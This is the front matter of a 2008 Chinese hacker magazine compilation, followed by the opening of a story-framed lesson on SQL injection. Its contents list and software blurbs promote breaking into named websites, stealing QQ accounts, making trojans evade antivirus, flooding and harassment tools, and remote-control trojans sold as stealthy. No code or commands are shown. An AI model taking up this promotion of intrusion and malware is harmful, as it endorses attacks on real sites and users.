# 黑客X档案合订本2008年（上）第一部分


《黑客X档案》畅销系列丛书 菜鸟Hacker进化最佳教程


WWW.HACKERXFILES.NET WWW.HACKERXFILES.NET

- 经典漏洞刷屏
- 动网8.1最新注入漏洞来了
- 动网8.1之后台获取Webshell大法
- Discuz6.0——从后台到webshell的突破
- Dblog最新远程溢出漏洞全接触
- 跟我学MS08025漏洞的利用
- 千洞之网——动网新漏洞再曝光
- Discuz6.0.1 UC最新漏洞大体验
- Dblog4.6文件下载漏洞简单利用
- 0day之动网后台注入漏洞

- 主题乐园
- 让小菜都轻松成为网站的猎手
- 局域网ARP欺骗攻击终极解决方案
- 菜鸟的Vmware Workstation攻防测试平台教程
- 从后台到WEBSHELL
- 跨站挂马全攻略
- 个人电脑安全防范全攻略

- 黑菜鸟学堂
- 网站入侵也简单（中）
- 网站入侵也简单（下）
- WebShell大接触（上）
- WebShell大接触（下）
- 跟我学旁注提权（上）
- 跟我学旁注提权（中）

- 黑客X档案茶馆一窥
- 让菜鸟也来“顶”网吧
- 菜鸟也玩跟我学用135端口抓肉鸡
- 菜鸟也暴后的自救十四步
- 无限次免费获取卡巴斯基激活码
- “拍照门”助我肉鸡成群
- 想攻就攻，我的地盘我做主
- 远程控制的新选择——网G远程2008
- Apache扩展名解析漏洞简介
- 从零开始学破解系列



## 黑客X档案2008合订本

### 上卷

#### 《黑客X档案》2008年合订本（上卷）

出 品 人： 孙胜利
主    编： 杨冬柱
编辑部主任： 丛林
编 辑 部： sagi / 呆呆虫 / 虫虫 / 咖啡
            黄色潜水艇 / 笨牛牛
特约编辑： ww0830 / zj1244 / 阿布 / hackest
            姜超 / 孟方明 / Talent Feng
光 盘 部： 战神MARS
设    计： 谭海梅
排    版： Bifrost
发行部总监： 湛颖
联系电话： 010-88561473
发行部经理： 赵琦
联系电话： 010-88561472
联系电话： 010-88560080
E-Mail： hackerxfiles@263.net
定    价： 人民币 32.00 元（光盘+手册）

申明：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。
投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支持的版权也包括网络和电子媒体。如有
相关问题，请作者及时与我们联系。

#### CONTENT

##### 菜鸟讲堂

- 2008.01 菜鸟师徙行——网站入侵也简单(中) ................................................ 9
- 2008.02 菜鸟师徙行——网站入侵也简单(下) ................................................ 15
- 2008.03 菜鸟师徙行——WebShell 大接触(上) ................................................ 21
- 2008.04 菜鸟师徙行——WebShell 大接触(下) ................................................ 27
- 2008.05 菜鸟师徙行——跟我学服务器提权(上) ................................................ 33
- 2008.06 菜鸟师徙行——跟我学服务器提权(中) ................................................ 39

##### QQ 安全馆

- 2008.01 离线挂 Q 又一新法——梦网刷分挂 Q ................................................ 47
- 2008.01 教你轻松迁移 BLOG 至 QQ 空间 ................................................ 48
- 2008.01 只想对你说的秘密——QQ 日志加密 ................................................ 48
- 2008.01 QQ 秀也爆最新漏洞 ................................................ 49
- 2008.02 非 QQ 黄钻也来玩转空间域名 ................................................ 50
- 2008.02 打造迷人的 QQ 尾巴链接 ................................................ 50
- 2008.02 菜鸟搞定另类的 QQ 密码 ................................................ 52
- 2008.02 让菜鸟都来分享我的 QQ 心得 ................................................ 52
- 2008.03 菜菜们的 QQ 空间成名路 ................................................ 53
- 2008.03 QQ 游戏形象洗刷刷 ................................................ 54
- 2008.03 挂 Q 宠，我时刻都行！ ................................................ 55
- 2008.03 腾讯接招——QQ 音乐继续破 ................................................ 56
- 2008.04 “红豆”与免费 QQ 秀 ................................................ 56
- 2008.04 QQ 空间也克隆 ................................................ 58
- 2008.04 菜鸟也来玩转 QQ 邮箱 ................................................ 58
- 2008.04 远程视频嗅探器骗局大揭秘 ................................................ 59
- 2008.05 QQ 密码也来本地破解 ................................................ 60
- 2008.05 突破 QQ 新限制——再次利用视频攻击 ................................................ 61
- 2008.05 QQ 密探帮你查好友 ................................................ 62
- 2008.06 另类方式登录 QQ ................................................ 63
- 2008.06 想盗 QQ 号跟我来 ................................................ 64
- 2008.06 “爱心守护天使”送来 QQ 大礼 ................................................ 67

##### 网吧攻防战

- 2008.01 网吧三剑客之玩转网吧 ................................................ 68
- 2008.01 网吧里的“社会工程学” ................................................ 69
- 2008.01 和我一起来破解金盘机房管理软件 ................................................ 70
- 2008.01 iKeeper 的菜鸟破解经验谈 ................................................ 71
- 2008.02 让菜鸟都来“顺寝”网吧 ................................................ 71
- 2008.02 三招送 Pubwin2007 上西天 ................................................ 73
- 2008.02 小菜的 Pubwin EP 加钱之旅 ................................................ 74
- 2008.03 要你代理没商量 ................................................ 75
- 2008.02 不堪一击的网吧限制 ................................................ 75
- 2008.03 “网络爸爸”你能奈我何？ ................................................ 76
- 2008.03 新菜招突破万象磁盘隐藏引发的破解 ................................................ 77
- 2008.04 看菜鸟来破解一卡通 ................................................ 79
- 2008.03 冰点还原 6.X 之破解大全 ................................................ 79
- 2008.04 是菜鸟就要免费 ................................................ 81
- 2008.04 想攻就攻，我的地盘我做主 ................................................ 82
- 2008.04 小菜来破解程序监控 ................................................ 85
- 2008.05 网吧还原也很脆弱 ................................................ 85
- 2008.05 巧破金盘电子阅览室机房管理系统 ................................................ 86
- 2008.05 一元的午餐——PubWin2007 简单破 ................................................ 87
- 2008.05 轻松突破雨人网络 E 卡通 ................................................ 88
- 2008.06 CMD 下也来终结网吧收费系统 ................................................ 89
- 2008.06 看我怎么搞定你，雨人网络 E 卡通 ................................................ 90
- 2008.06 万象网管——要免费更要安全 ................................................ 91
- 2008.06 Pubwinkiller——通杀 Pubwin 的利器！ ................................................ 92

##### 攻防实战

- 2008.04 教小菜在梦幻国度刷道具 ................................................ 93

### 目录 CONTENTS

- 2008.01 Realplay，迅雷一起上——0day的乐趣 ................................................................ 94
- 2008.01 百度贴吧攻击战 ............................................................................................ 95
- 2008.01 菜鸟之“垃圾桶”里挖宝贝 ............................................................................ 96
- 2008.01 X 文件锁真的安全吗？ ................................................................................ 97
- 2008.01 解开高强度文件夹加密大师里的“秘密” .............................................................. 98
- 2008.01 轻松突破 A T A 考试认证系统的限制 ............................................................ 99
- 2008.01 敢黑吧？判死刑！——突破百度贴吧的封号限制 ............................................... 100
- 2008.01 让你的Remote Administrator 随用随开 ............................................................ 101
- 2008.01 菜鸟来搞定网通的流氓广告 ............................................................................ 102
- 2008.01 魔兽世界VPN软件破解全攻略 ...................................................................... 103
- 2008.01 看我无限次刷卡巴7.0半年key .................................................................... 106
- 2008.01 教你几招保护好自己的IM密码 .................................................................... 107
- 2008.02 论坛乾坤大挪移 ............................................................................................ 108
- 2008.02 Google也要打免费电话 ................................................................................ 109
- 2008.02 轻轻松松获取电脑序列号 ............................................................................ 110
- 2008.02 系统还原听我的 ............................................................................................ 111
- 2008.02 巧用蓝牙手机为电脑装上“无形锁” ................................................................ 112
- 2008.02 一网打尽网页密码 ........................................................................................ 113
- 2008.02 让XP来享受Vista的ReadyBoost加速 ............................................................ 114
- 2008.02 菜鸟都来跟我学用135端口抓肉鸡 ................................................................ 115
- 2008.02 菜鸟拿站也不难 ............................................................................................ 117
- 2008.02 看菜鸟如何伪装程序 .................................................................................... 120
- 2008.03 无限次来获取卡巴斯基激活码 ........................................................................ 121
- 2008.03 巧得六间房MP4视频真实地址 ........................................................................ 123
- 2008.03 PHP环境一步步来搞定 ................................................................................ 124
- 2008.03 教你用QuickBFC编译批处理文件 .................................................................... 125
- 2008.03 撕破影子，还原系统 .................................................................................... 127
- 2008.03 教小菜来强行占用内部IP地址 ........................................................................ 127
- 2008.03 移动加密破破破 ............................................................................................ 128
- 2008.03 内网攻击之在线密码破解 ................................................................................ 130
- 2008.03 菜鸟齐来认识ImageX——欲罢Ghost的命？ .................................................... 132
- 2008.03 小小逆向工程整美眉 .................................................................................... 134
- 2008.04 主流相册 批量下载 .................................................................................... 136
- 2008.04 和我一起DIY机器狗 .................................................................................... 137
- 2008.04 GHOST真的安全吗？ .................................................................................... 137
- 2008.04 触发Windows的愚人机关 ............................................................................ 138
- 2008.04 WinRAR挂马新体验 .................................................................................... 139
- 2008.04 Vista下的IIS7的安装与调试 ........................................................................ 139
- 2008.04 播放器挂马的艺术 ........................................................................................ 141
- 2008.04 让你的键盘不再成为“泄密之源” .................................................................... 143
- 2008.04 在局域网中轻松共享鼠标键盘 ........................................................................ 145
- 2008.04 Autologon让你自动登录Vista .......................................................................... 146
- 2008.04 替换放大镜，添加无敌3389账户 .................................................................... 147
- 2008.04 优酷、56、土豆等在线视频随意down ............................................................ 148
- 2008.04 另类的CMD后门 ............................................................................................ 149
- 2008.05 火爆论坛 轻松营造 ........................................................................................ 151
- 2008.05 Linkideo——又一VPN代理服务器利器 ............................................................ 153
- 2008.05 突破VISTA登录，还有紫光输入法 .................................................................... 154
- 2008.05 电脑中的手机直播 ........................................................................................ 155
- 2008.05 自解压背后的注释 ........................................................................................ 156
- 2008.05 如何突破局域网封锁来玩网游 ........................................................................ 156
- 2008.05 入侵技巧之javascript脚本 ............................................................................ 157
- 2008.05 玩转卡巴 .................................................................................................... 158
- 2008.05 为邮件发送安插一个“暗哨” ........................................................................ 159
- 2008.05 看好你的迅雷 ................................................................................................ 161
- 2008.05 另类CC防御 .................................................................................................... 161
- 2008.05 轻松掌控软件安装的“特权” ............................................................................ 162
- 2008.06 ARP欺骗攻防 ................................................................................................ 163
- 2008.06 Vista的桌面也不安全 .................................................................................... 164
- 2008.06 自由进出系统的“上帝之门” ............................................................................ 165


#### CONTENT

- 2008.06 google 对常见漏洞的辅助入侵 ........................................ 166
- 2008.06 实用的内网上线方法 ................................................ 167
- 2008.06 “图解‘克隆羊’盗捞‘防盗圈’”之续 ............................ 168
- 2008.06 突破校园网的共享上网限制 ............................................ 169
- 2008.06 菜鸟来过网络验证 .................................................... 170
- 2008.06 想发泄？“砸”了它！................................................ 170
- 2008.06 局域网内最实惠的入侵做法 ............................................ 171
- 2008.06 为 Discuz 论坛添加统计 ................................................ 172
- 2008.06 小菜的考试秘籍 ........................................................ 173

### 技术进阶

- 2008.01 小试国产新马 Fantasy ................................................ 174
- 2008.01 网页后门免杀之 phpcencode 篇 ........................................ 175
- 2008.01 叉子来免杀灰鸽子 VIP2.03 ............................................ 176
- 2008.02 绽放网络的“炽天使” ................................................ 179
- 2008.02 “木偶”也来远程控制 ................................................ 182
- 2008.02 通通透透免杀黑洞 1.96 ................................................ 184
- 2008.02 纯手工免杀 PCSHARE .................................................... 185
- 2008.03 “艳照门”助我肉鸡成群 .............................................. 186
- 2008.03 三无驱动级木马 X-Door ................................................ 188
- 2008.03 国产木马新选择—Gh0st RAT ............................................ 190
- 2008.03 上兴过瑞星主动之旅 .................................................... 191
- 2008.04 国外也有好木马——Turkojan ............................................ 193
- 2008.04 菜鸟免杀之特征码定位——multiCCL ...................................... 195
- 2008.04 叉子又来玩免杀—免杀 RemoteABC 过瑞星卡巴 ............................ 197
- 2008.04 用 VBS 制作自解压免杀下载者 ............................................ 199
- 2008.05 送给小菜的灰熊猫远控程序 .............................................. 199
- 2008.05 教菜鸟免杀 Pcshare .................................................... 201
- 2008.05 粘滞键 + 逆向工程再次打造隐藏后门 .................................... 204
- 2008.05 木马帝国的远程控制软件 ................................................ 206
- 2008.06 远程控制的新选择——DG 远控 2008 ...................................... 208
- 2008.06 鸽子如何过主动防御与 360 安全卫士 .................................... 209
- 2008.06 小菜来教你使用黑鹰远控 ................................................ 210
- 2008.06 教叉子 6 分钟免杀 DG 远控 ............................................ 212

### 病毒分析

- 2008.01 对阵奇怪的 AUTO 病毒 ................................................ 214
- 2008.01 “新奇”病毒菜鸟遭遇战 .............................................. 217
- 2008.02 全面绞杀 U 盘病毒 .................................................... 219
- 2008.02 菜鸟手工杀毒通用大法 ................................................ 220
- 2008.03 菜鸟除马计 ............................................................ 222
- 2008.03 揭秘 360 安全卫士查杀流氓软件的原理 ................................ 223
- 2008.04 看我來清除“极速还原”中的流氓插件 ................................ 224
- 2008.04 令人抓狂的 cihmllf 病毒 .............................................. 225
- 2008.05 和我一起认识最近的流行病毒 .......................................... 229
- 2008.05 和病毒战斗到底 ........................................................ 229
- 2008.06 三招两式清除 Rootkit .................................................. 233
- 2008.06 与新型 QQ 木马的较量 .................................................. 234

### 网管之家

- 2008.01 我的失忆女友（二）.................................................. 236
- 2008.02 我的失忆女友（三）.................................................. 238
- 2008.03 我的失忆女友（四）.................................................. 240
- 2008.04 杀爱 ................................................................ 243
- 2008.05 鬼网超生（一）初遇电脑里的女鬼 .................................... 246
- 2008.06 鬼网超生（二）诡异的女房东 ........................................ 248

### 个人视角

- 2008.01 SA 权限灵活入侵跟我来 .............................................. 251
- 2008.01 纯社会工程学渗透某大型信息港 ...................................... 252
- 2008.01 对已知漏洞的一次合理利用 255
- 2008.01 韩国游戏交易网站的恶梦 256
- 2008.01 嗅探入侵柯南的世界 258
- 2008.01 跟小菜一起来检测黑客防线网站 262
- 2008.01 畅游某名牌大学教务处 264
- 2008.02 动网8.1最新注入漏洞来了 267
- 2008.02 动网8.1之后台获取Webshell大法 269
- 2008.02 KingCMS 0day漏洞之菜鸟体验 270
- 2008.02 和我一起进行php渗透 272
- 2008.02 小菜巧遇电信网站漏洞之后 275
- 2008.02 Discuz6.0——从后台到webshell的突破 277
- 2008.02 新云新洞迎新年——新云网站内容管理系统XSS漏洞利用详解 280
- 2008.03 DJ！看我怎么入侵你 283
- 2008.03 跟我一起来检测某知名信息服务公司网站 286
- 2008.03 利用列目录漏洞来突破讯时新闻系统 289
- 2008.03 菜鸟来畅游房地产网 290
- 2008.03 看菜鸟渗透清华同方网站 292
- 2008.03 暴数据库密码漏洞来批量获取WEBSHELL 296
- 2008.03 不是旁注的旁注 297
- 2008.03 0day之动网后台注入漏洞 299
- 2008.04 千洞之网——动网又出新漏洞 301
- 2008.04 phpcms 漏洞利用全过程 302
- 2008.04 DedeCms V4.0 注入漏洞公布 304
- 2008.04 提权，别忘了Serv-U6.X通杀漏洞 305
- 2008.04 社工进入金山社区内部 306
- 2008.04 漏洞除了发现，还可以“创造”—— 从构造注入点到差异备份提权 309
- 2008.04 当神话不再是一个神话—— 彻彻底底入侵台湾神话官方网站 311
- 2008.04 入侵政府网站之另类提权 313
- 2008.05 Discuz6.0.1 UC最新漏洞大体验 315
- 2008.05 Oblog4.6文件下载漏洞简单利用 318
- 2008.05 菜鸟入侵初体验 319
- 2008.05 ASP.NET 来入侵台湾站点 320
- 2008.05 榨干Webshell中的最后一滴血 323
- 2008.05 从别人的后门到自己的Webshell 325
- 2008.05 入侵Linux台湾网站全过程 326
- 2008.06 Oblog最新远程注入漏洞全接触 328
- 2008.06 跟我学MS08025 漏洞的利用 331
- 2008.06 彻底击垮良精通用企业建站系统 333
- 2008.06 和我一起入侵法国网站 336
- 2008.06 简简单单来玩SMSJ V8.0最新漏洞 337
- 2008.06 我是如何入侵红旗Linux网站的 339
- 2008.06 菜鸟入侵之winwebmail和dvbbs asp.net 342

### 黑客防骗

- 2008.01 移形换影——让木马无计可施 345
- 2008.01 看小菜的零工具U盘防毒方法——NTFS权限的应用+批处理 345
- 2008.01 我的USB端口我作主——为USB端口装上“加密锁” 347
- 2008.02 菜鸟中毒后的自救十四步 350
- 2008.02 保护杀毒软件的使者 352
- 2008.02 让微点主动防御来保护我们的电脑 352
- 2008.03 棒打“机器狗” 355
- 2008.03 纯手工保护光盘数据 357
- 2008.03 假进程“玩”死天龙八部盗号病毒 358
- 2008.04 间谍软件克星——HiJackFree 359
- 2008.04 维护系统我用Windows PE 360
- 2008.04 菜鸟DIY保护自己的秘密文件 363
- 2008.05 局域网的安全侦探专家PromqryUI 364
- 2008.05 让DefenseWall把我们的系统变安全 365
- 2008.05 Linux安全点滴——我让ROOT也下岗 367
- 2008.06 四步打造超级安全电脑 368
- 2008.06 带安全模式的安全利器—GMER 370
- 2008.06 Linux 安全点滴之再谈 ROOT 也下岗 ................................................ 372

### 特别企划专题

- 2008.01 移花接木——JAVASCRIPT 打造完美 QQ 钓鱼程序 .................................. 374
- 2008.01 Apache 扩展名解析漏洞简介 .................................................. 375
- 2008.02 如何利用 Cookie 来防盗链 .................................................... 376
- 2008.02 让端口复用来洞穿内网 ...................................................... 378
- 2008.03 关于缓冲区溢出的介绍和简单应用 .............................................. 380
- 2008.03 对粘滞键后门的一些想法 .................................................... 383
- 2008.04 我是如何拿到目标服务器上的敏感文件的 ........................................ 384
- 2008.04 注入也玩“特征码” ........................................................ 386
- 2008.05 惯性点击助你轻松实现服务器提权 ............................................ 386
- 2008.05 菜鸟详解 ADSL 密码盗取工具制作过程 .......................................... 388
- 2008.06 浅谈 IIS 下鲜为人知的扩展——shtml ........................................... 390
- 2008.06 跟我学 SAM 欺骗 ............................................................ 392

### 跳跳糖兵团

- 2008.01 从零开始学破解之（十六）神秘的“伪破解” .................................... 395
- 2008.01 菜鸟来制作完美国际双开补丁 ................................................ 398
- 2008.02 从零开始学破解之（十七）神秘的注册码 ........................................ 399
- 2008.02 教你制作壳变异补丁 ........................................................ 403
- 2008.03 让“雨过天晴”无限用 ...................................................... 404
- 2008.03 从零开始学破解之（十八）重启验证型软件的破解 .................................. 406
- 2008.04 从零开始学破解之（十九）攻破软件的防线之“自效验” .............................. 410
- 2008.04 菜鸟来和我 Crack 移动加密 .................................................... 413
- 2008.05 从零开始学破解之（二十）SMC 破解大法 .......................................... 414
- 2008.05 软硬通吃之破解 EasyCapture2.0 ................................................ 418
- 2008.06 从零开始学破解之（二十一）把软件变成注册机 .................................... 420
- 2008.06 手工来脱壳 ASPRoteet 2.3 SKE ................................................ 423

### 黑器联盟

- 2008.01 易语言之木马武装 .......................................................... 426
- 2008.01 短信炸弹 DIY .............................................................. 427
- 2008.01 VB 下的一句话 EXE 木马 ...................................................... 429
- 2008.02 30 秒使用 E 语言打造端口扫描工具 ............................................ 430
- 2008.02 盗 O 新招——浅析 QQ 音速盗号木马 ............................................ 431
- 2008.03 重磅！程序自启动的新思路——揭秘 Office 插件的制作全过程 ........................ 434
- 2008.03 低调的屏幕键盘后门 ........................................................ 436
- 2008.03 菜鸟也来做 QQ 炸弹 ........................................................ 437
- 2008.04 百度空间互踩机——让我们的人气步步高 ........................................ 438
- 2008.04 Delphi 下浅析 U 盘病毒的原理 ................................................ 440
- 2008.05 Delphi 之教你编写肉鸡小偷 .................................................. 441
- 2008.05 下载者服务端配置的三种方法 ................................................ 444
- 2008.06 反弹木马编写之反弹上线和简单控制篇 ........................................ 446
- 2008.06 教你编写“响一声就挂”攻击器 .............................................. 450

### 黑客与攻防

- 2008.01 局域网 ARP 欺骗攻击终极解决方案 ............................................ 453
- 2008.02 菜鸟的 Vmware Workstation 攻防测试平台教程 .................................... 457
- 2008.03 从后台到 WEBSHELL ........................................................ 460
- 2008.04 让小菜都轻松成为网站的猎手 ................................................ 463
- 2008.05 跨站挂马全攻略 ............................................................ 467
- 2008.06 个人电脑安全防范全攻略 .................................................... 471

### 编读互动

- 2008 呆呆虫问吧 ................................................................ 476

7


### 软硬天师

**帐号守护者 V2.20：**
采用独创的独特技术，使所有键盘记录程序失效，从而实时保护你的帐号密码信息。

**RouterOS：**
是一种路由操作系统，可以通过该系统软件将标准的 PC 做成专用的路由器，RouterOS 经历了多次更新和改进，它的功能在不断增强和完善。

**Keyfinder Thing 3.1.6：**
一款简单的应用工具，可以重新获得安装到你的系统中 Microsoft、Macromedia等软件的序列号或者 CD Key。

**微点主动防御软件：**
主动防杀 99% 以上新病毒，开创病毒免疫时代；无需扫描、不依赖升级、简单易用、安全省心；电脑快似“裸奔” 系统资源占用低。

**FastCopy：**
Windows 平台上最快的文件拷贝、删除软件。由于其功能强劲，性能优越，一时间便超越相同类型的所有其他软件。

**WinISO：**
一个 CD-ROM 映像文件格式转换工具，并且可以直接编辑光盘映像文件！它可以处理几乎所有的 CD-ROM 映像文件，包括ISO和BIN。

**ImageX：**
可以将任何文件转换为一幅图片，这样别人看到的就只是一幅图片，只有你使用本软件才能察看实际的内容并且将实际的文件从图片中解出来。

**Turkojan 4.0：**
土耳其远程控制 Turkojan 4.0。功能选项有反向连接、Remote 桌面、Remote 密码、MSN嗅探大、Remote 壳、Web-Site 阻拦与服务器 Chat 等等。哈哈，够强大吧。

**Hide Window Plus：**
可以让你通过一组键盘快捷键或使用鼠标右键单击关闭按钮来快速隐藏当前屏幕与任务栏中的任意窗口以及系统托盘图标。你也同样可以通过一组键盘快捷键来恢复先前隐藏的窗口。

**a-squared HiJackFree3.1：**
一款优秀的系统分析软件。可以帮助你发现系统内的黑客工具，间谍软件，木马和蠕虫病毒。AS HiJackFree 能够浏览和设置所有的自动运行程序，显示超过 50 种不同位置的自动运行程序和当前用户或所有用户默认的注册表启动程序。

**屏蔽迅雷自动上传工具：**
你开着迅雷，不管已下载列表框是否有文件（是否已经被你删除），迅雷都会自动发现可以上传的文件，这款小工具可以帮你节省系统的资源，防止迅雷偷偷上传你的资源。

**灰熊猫远程控制：**
该远控体积小，功能以实用为主。最重要的是保持了和灰鸽子一样的高稳定性。去除了上线主机数量的限制。该程序采用 delphi 7 开发，使用了与灰鸽子一样的 indy9.0 网络控件开发，保持了高稳定性，不会丢失上线主机。隐蔽性强，突破主动防御和防火墙。

**EmailObserver：**
这是电子邮件监控程序和监视工具。你能够使用它决定电子邮件消息的确切的目的，和抄袭所有发出去的电子邮件。

**DefenseWall：**
在你浏览互联网时保护你免受恶意软件(间谍软件、广告、键盘记录工具以及一些打包的恶意脚本)入侵电脑，可以最大限度的保护你预防那些恶意软件，不需要使用者具有任何特定知识或进行无休止的网上署名验证。

**《黑客 X 档案》PubwinKiller：**
作者“cockerel”在与Pubwin不断的斗争和较量中也积累了一些经验，心血来潮就制作了独家的工具——《黑客 X 档案》PubwinKiller。通杀 Pubwin 的利器！

**Super X Desktop：**
一款优秀的桌面管理工具，可以让用户在一台计算机上运行多达 100 个虚拟桌面(默认是 10 个)，通过 Ctrl 加数字的组合键就可以很容易地在各个桌面间进行切换。

**Orbit downloader 2.6.5：**
一款来自国外的类迅雷下载加速器，在下载方式上，它采用了 P2P 来提高下载速度。P2P 除了加速外，也在一定程度上防止死链接。加上服务器端，下载方式就是P2SP，和迅雷一样了。和迅雷不同的是，这个功能是可选项，换句话说，用户可以自行决定启用或关闭 P2P 功能。

**小鬼当差 V1.0：**
灰鸽子工作室制作的防火墙。它小巧精悍，无需安装就可以使用的绿色软件！它目前完全免费！

**fint2005：**
一款小巧绿色木马辅助查找器，功能有：1)端口进程关联信息；2)共享管理，关闭添加，查看当前会话信息；3)注册表启动项管理；4)常见几个关联文件查看管理；5)所有网络设备发送、接收流量显示；6)自动扫描可疑进程；7)自带检测文件捆绑工具等。

**QuickMail：**
支持多用户、多账号的 EMAIL 客户端。

**钛金进程防火墙：**
专门用来对付这些杀害软件和网络防火墙不查杀或者漏查漏杀的各类木马、蠕虫、病毒以及流氓软件的防火墙，是您电脑安全的最后一道关卡，是安全的最后城墙。

**Promqryui：**
有“局域网反窃听专家”之称的 Promqryui 软件，可以帮助我们检查本机或者某 IP 段的网络传输状况。如果一旦发现网络状况过度混乱，就会弹出相关警告，来提醒用户有窃听程序作怪，从而以致于大家能够加强防范意识。

**世界之窗浏览器 V2.1 Final：**
有效提高上网效率，功能丰富，自定义使用习惯。安全可靠，有效的屏蔽广告和插件的干扰。节省网络带宽和电脑资源，低配置机器流畅运行。

**Input Director：**
是一个 Windows 程序，使你通过连接在一台计算机上的一套键盘鼠标，就可以控制多套 Windows 系统。这是专门为拥有多台计算机并经常在各个系统之间切换的用户设计的。

**Winrar 变形金刚：**
让您制作的 Winrar 自释放文件不被 WINRAR 检测，制作永久免杀的优秀捆绑效果。说明：高度整合 WINRAR，可自由绿色安装和卸载。

**QQ 聊天集中轰炸机飘云版：**
打开你要发送消息的聊天群或者聊天的朋友的聊天窗口。然后就点查找...就可以开始轰炸了。不过害人之心不可有啊，小心使用！~

**multiCCL：**
特征码定位工具，比 myccl 定位的要精确。

**ProcessViewer：**
此工具可以查看目前系统中正在运行的所有进程。并且可以查看某个进程所调用的全部模块、运行的全部线程、以及内存的使用情况，还能强行终止进程的运行。

**QQ 好友密探：**
这个软件能轻松分析出你的好友中有谁已经将你从好友中删除了。从软件分析结果中可以清楚的看到，显示对勾的则表示你是对方的好友，而显示“您不是 Ta 的好友”则表示对方已经将你从他的好友中删除了。

**大仙 QQ 视频攻击器：**
可以不停的向对方发起视频请求，迫使对方下线。以前的以文件方式的 QQ 攻击已经过时，现在咱们流行视频攻击——QQ 视频攻击器横空出世，依靠着鼠标模拟技术，自动点击，自动取消，以此循环，达到了一个攻击的目的！

**PubWin2007 伪装破解精灵：**
软件可以段开 PUBWIN2007 系统，伪装 PUBWIN 系统和伪装卡号、上机时间，解除禁止、退出 PUBWIN-EP，注销 EP 等功能。

# 菜鸟学堂

## 菜鸟师徙行

### 网站入侵也简单（中）

阿布（高五杰）

“铃……”下课铃声响起，阿布收拾起东西准备回宿舍，走出教学楼的那个瞬间突然感觉到一阵寒风刺骨。“阿嚏……”阿布不禁打了一个喷嚏，看着球场上不停在运动的同学们，阿布不禁想到，不知道燕MM是否也象自己这样忘记了增加衣服！

最近感冒的人非常多，前几天下了雪，这两天又狂降温，真是让人担心呀。阿布自言自语道：“这个小丫头不知道会不会照顾自己？有没有感冒？如果感冒了会想到吃药吗？她最近在干嘛？……”一连串关于燕MM的想法都出现在脑海里。

“嗨！哥们，帮忙把球扔过来。”球场上的一声喊道。阿布这才回过神来，原来自己在发呆，傻傻的笑了笑把球扔过去，就急忙往宿舍跑。噔噔噔……一楼、二楼、N楼，阿布推开宿舍门把课本扔到桌子上就急忙打开本本，上QQ看燕MM在干嘛。

一上QQ就是QQ群消息在狂轰乱炸，阿布只好耐着性子一的点击查看，不过他找的是燕MM是否给他留言了。可找了半天都没有燕MM的消息，阿布有点郁闷了，他刚要回群里的消息，燕MM的信息框便出现了（网络问题，燕MM还是给阿布留言了，就是有点慢，网络没有周转过来），欣喜若狂的阿布急忙查看燕MM留给他的QQ留言，这让他很是感动呀！

燕MM：“师傅，最近天气冷了，你要注意身体知道吗，别感冒了，前几天下了雪，过几天戴上厚帽子跟手套哦（*^__^*），嘻嘻……”

看到这里，阿布激动的快要掉下眼泪，没想到他在球场上担心的事情，反而让燕MM给先说了出来（徒弟好孝顺师傅哦）。阿布急忙回了条信息：“燕MM，我知道了，师傅我可是英明神武、玉树临风、风流倜傥的，怎么会有病呢，你倒是小心自己，没有生病呢？”

可等了一天，对方也没有啥回复，阿布叹了口气说道：“看来，今天没有在呀！”然后就拼水房打水了。20分钟后，当阿布从一楼拿眷暖壶上来，刚放下暖壶，倒了杯热水便来看QQ，他发现燕MM已经给他回复了！

阿布说道：“我还当你是生病，没力气上网了呢！”燕MM说道：“怎么会呢^_^，师傅哥哥，今天咱们讲什么呢？”阿布喝了口水说道：“当然是接着讲注入攻击了……”

燕MM说道：“什么？猪肉？！讲猪肉？猪肉有啥好讲的？”阿布回答道：“什么猪肉啊？是注入，注入的注，注入的人！ARE YOU明白？”

燕MM说道：“原来是这，我先去百度找找资料。”于是二人的课程便开始了o(∩_∩)o

着Internet技术的兴起，对C/S结构的一种变化或者改进的结构。在这种结构下，用户工作界面是通过WWW浏览器来实现，极少部分事务逻辑在前端（Browser）实现，但是主要事务逻辑在服务器端（Server）实现，形成所谓三层3-tier结构。这样就大大简化了客户端电脑的载荷，减轻了系统维护与升级的成本和工作量，降低了用户的总体成本（TCO）。

SQL注入是从正常的WWW端口访问，表面看起来跟Web页面的正常访问没什么区别，所以一般的防火墙是不会对SQL注入发出警报的，如果管理员没有查看IIS日志的习惯，甚至连自己被人侵很长时间了都有可能察觉不出来呢。

